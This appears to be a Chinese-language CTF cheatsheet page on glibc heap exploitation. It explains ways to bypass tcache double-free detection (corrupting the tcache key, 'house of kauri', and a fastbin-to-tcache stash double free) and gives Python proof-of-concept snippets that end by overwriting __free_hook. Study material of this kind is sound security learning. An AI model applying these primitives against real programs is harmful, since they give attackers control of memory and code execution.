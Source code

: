 > 
  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache_key;
>
  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}
>```

## tcache key绕过

### 破坏key
key字段写入任意字节即可破坏
#### 条件
溢出至少1字节
### house of kauri
通过修改 `size` 使两次 `free` 的同一块内存进入不同的 `entries` 。
#### 条件
堆块大小(tcache)，溢出0x8字节 (size)，悬挂指针
#### poc
```python
add_chunk(0, 0x18)
add_chunk(1, 0x10)
delete_chunk(1)
edit_chunk(0, 'a' * 0x18 + p64(0x30))
delete_chunk(1)
```

### tcache stash with fastbin double free

> [!info]- 介绍
> 在 fastbin 中并没有严密的 double free 检测，我们可以在填满对应的 tcache 链条后在 fastbin 中完成 double free，随后通过 stash 机制将 > fastbin 中 chunk 倒回 tcache 中。此时 fast bin double free 就变成了 tcache double free 。
> ![](/img/user/CakeVault/Pwn/cheatsheet/heap_imgs/tcache_stash_with_fastbin.png.png)
#### 条件
堆块大小(tcache), 能分配且释放9个chunk，悬挂指针
#### poc
```python
for i in range(9):
    add_chunk(i, 0x10)
 
for i in range(2, 9):
    delete_chunk(i)

# fastbin double free
delete_chunk(0)
delete_chunk(1)
delete_chunk(0)

# use up tcache
for i in range(2, 9):
    add_chunk(i, 0x10)

# hijacking
add_chunk(0, 0x10)
edit_chunk(0, p64(libc.sym['__free_hook']))
add_chunk(0, 0x10)
add_chunk(0, 0x10)
add_chunk(0, 0x10)
```